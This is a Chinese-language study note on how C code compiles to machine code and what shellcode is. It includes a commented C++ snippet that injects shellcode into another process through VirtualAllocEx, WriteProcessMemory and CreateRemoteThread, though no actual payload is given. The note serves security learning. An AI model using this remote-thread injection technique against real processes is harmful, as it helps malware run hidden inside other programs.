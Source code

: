 理解：

c语言-->编译成obj文件（二进制），多个obj链接成-->exe(可执行文件)

为什么c语言要编译，因为cpu只认识指令集( 机器码)（e.g.intel阵营的8086指令集，ARM阵营的RISC指令集）

至于汇编，只是一种帮助人直观认识的助记符

程序的执行通常会对当前程序有依赖，想要二进制代码有效，必须处理相关的依赖，比如相关的函数地址，字符串地址，自己处理了即进行了重定位。
$$
shellcode：一段与地址无关的代码
$$
把shellcode注入到目标进程里，首先要给目标进程开辟空间

```c++
//VirtualAlloc只能给自己申请，而VirtualAllocEx可以给别人开辟空间
//通过进程id获取进程句柄
HANDLE hProcess=OpenProcess(PROCESS_ALL_ACCESS,FALSE,dwPID);
//申请内存，返回值为申请到的地址
LPVOID lpAddr=VirtualAllocEx(
    	    hProcess,//目标进程句柄
    	    NULL,//表示申请内存在任意地址即可，随机分配内存
            1,//内存通常是以分页为单位来给空间的 1页=4k 4096
            MEM_COMMIT,//告诉操作系统给分配一块内存 MEM_RESERVE告诉操作系统预定一块空间
            PAGE_EXECUTE_READWRITE);//申请的内存的权限属性


//给任何一个进程写内存
DWORD dwWritedBytes=0;//用于接收下面api成功写入的字节数
bool bRet=WriteProcessMemory(hProcess,//目标进程
                  lpAddr,//目标地址 在目标进程中
                  data,//源数据 在当前基础中
                  sizeof(data),//写多大内容
                  &dwWritedBytes);//成功写入的字节数

if(!bRet)
{
    //释放内存空间
	VirtualFreeEx(hProcess,//目标进程句柄
    	    lpAddr,
            1,//释放多大的页
            MEM_DECOMMIT);
    return 0;
}
//向目标程序调用一个线程，创建远程线程api
HANDLE hRemoteThread=CreateRemoteThread(hProcess,//目标进程
                   NULL,
                  0,
                   (LPTHREAD_START_ROUTINE)lpAddr,//目标进程的回调函数
                   0,
                   NULL,
                  0);






   //释放内存空间(这里不能马上释放，因为马上释放的话，线程可能还没执行完就释放掉了)
	//VirtualFreeEx(hProcess,lpAddr,1,MEM_DECOMMIT);                




```
